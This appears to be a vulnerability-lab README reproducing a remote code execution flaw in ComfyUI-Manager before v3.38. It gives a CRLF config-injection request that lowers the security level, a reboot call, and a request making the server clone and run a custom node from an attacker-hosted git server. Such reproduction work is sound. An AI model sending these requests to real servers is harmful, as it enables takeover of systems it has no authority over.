

# ComfyUI-Manager Remote Code Execution (CVE-2025-67303)

[中文版本(Chinese version)](README.zh-cn.md)

ComfyUI is a professional node-based GUI for Stable Diffusion, serving as a core open-source project in the AI art generation field. ComfyUI-Manager is the official extension manager for ComfyUI, handling the installation of custom nodes, models, and updates.

In versions prior to v3.38, the ComfyUI-Manager's data and configuration directories were not adequately protected by ComfyUI's Web API access controls. An attacker can exploit the `/api/manager/db_mode` endpoint to inject arbitrary configuration parameters, including setting `security_level` to `weak`, which disables security restrictions. Combined with the `/api/manager/reboot` endpoint to restart the service and `/api/customnode/install/git_url` to install malicious custom nodes, attackers can achieve remote code execution on the server. This vulnerability has been fixed in ComfyUI-Manager v3.38 by introducing the "System User Protection API", which migrates all configuration data to a protected directory.

References:

- <https://mp.weixin.qq.com/s/I1_2E9OyxySwWy0KqQdJXg>

## Environment Setup

Execute the following command to start a ComfyUI server with ComfyUI-Manager 3.37:

```
docker compose up -d
```

After the server starts, the ComfyUI web interface will be available at `http://your-ip:8188`.

## Vulnerability Reproduction

By default, the `/api/customnode/install/git_url` endpoint is protected by security restrictions. Attempting to install a custom node directly will result in a 403 Forbidden response:


To bypass this restriction, send a request to the `/api/manager/db_mode` endpoint to inject the `security_level = weak` configuration into the `config.ini` file. The `%0D` in the payload is a carriage return character that allows injecting a new line into the configuration file:

```
GET /api/manager/db_mode?value=cache%0Dsecurity_level%20=%20weak HTTP/1.1
Host: your-ip:8188
```


Then, restart the ComfyUI server by sending a request to `/api/manager/reboot` to make the new configuration take effect. After the server restarts (wait a few seconds for the service to fully restart), start the [evil-git-server.py](evil-git-server.py) script on your host machine to create a local Git HTTP server hosting the malicious custom node:

```bash
python evil-git-server.py
```

The script will output the malicious repository URL with a random suffix (e.g., `http://your-ip:9999/evil-node-abc123`). Send a POST request to `/api/customnode/install/git_url` to install the malicious custom node from your local Git server. Replace `your-ip` with the IP address of your host machine that is accessible from the Docker container, and use the repository URL output by the PoC script:

```
POST /api/customnode/install/git_url HTTP/1.1
Host: your-ip:8188
Content-Type: text/plain

http://your-ip:9999/evil-node-abc123
```


The evil Git server will receive several requests from the ComfyUI server to clone the malicious repository:


The malicious code will be executed immediately during installation. Verify that the command was executed by checking if the file `/tmp/success` exists in the container:

```bash
docker compose exec web ls -al /tmp/
```



The malicious custom node's `install.py` file contains the following code that gets executed during installation:

```python
import subprocess
subprocess.run(["touch", "/tmp/success"])
```

In a real attack scenario, an attacker would host a malicious custom node on a public Git repository and exploit this vulnerability chain to install it remotely without user interaction.
